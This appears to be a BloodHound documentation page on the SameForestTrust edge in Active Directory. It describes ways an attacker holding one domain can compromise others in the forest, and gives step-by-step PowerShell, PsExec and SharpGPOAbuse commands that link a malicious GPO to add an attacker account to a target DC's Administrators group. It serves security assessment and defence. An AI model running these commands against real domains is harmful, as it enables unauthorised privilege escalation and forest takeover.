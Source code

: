 ---
title: SameForestTrust
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 

The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. In this relationship, the source node domain has a same-forest (intra-realm) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

Abuse Info
----------

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### **Spoof SID history**

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the [SpoofSIDHistory](/resources/edges/spoof-sid-histroy) edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### **Coerce to TGT**

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](/resources/edges/coerce-to-tgt) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### **ADCS ESC5**

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

**Attack Steps:**

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain
2. Create a certificate template allowing ESC1 abuse
3. Publish the certificate template to an enterprise CA
4. Enroll the certificate as a privileged user in the target domain
5. Authenticate as the privileged user in the target domain using the certificate

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed: An attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### **GPO linked on Site**

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

**Step 1: Obtain a SYSTEM session on a DC in the attacker-controlled domain**  
Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

```powershell
PsExec64.exe -s -i -accepteula powershell
```

**Step 2: Create a GPO**  
Use the GroupPolicy module of RSAT to create the new GPO:

```powershell
New-GPO -Name "MyGPO"
```

**Step 3: Add the compromising setting to the GPO**  
Use SharpGPOAbuse to add a scheduled task:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
```

**Step 4: Identify a target DC and its site**
Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

```powershell
Get-ADDomainController -server bastion.local | select Name,Site
```

Look up the site DistinguishedName:

```powershell
Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
```

**Step 5: Set the GPO permissions**

This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

```powershell
$GPO = Get-GPO -Name "MyGPO"
$GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
$GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\\bldc01" -TargetType Computer
```

**Step 6: Link the GPO to the site**
Use the GroupPolicy module of RSAT to link the GPO to the site:

```powershell
New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
```

Note that you must specify the server to be the DC where you are running the command, as the command defaults to execute the change on a root domain DC where the compromised DC does not have the permissions to link the GPO.

Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

Opsec Considerations
----------

There is no OPSEC associated with this edge.

References
----------

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
* [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
* [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
* [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

Abuse info references:

* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
* [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
* [SID filter as security boundary between domains? (Part 4)](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
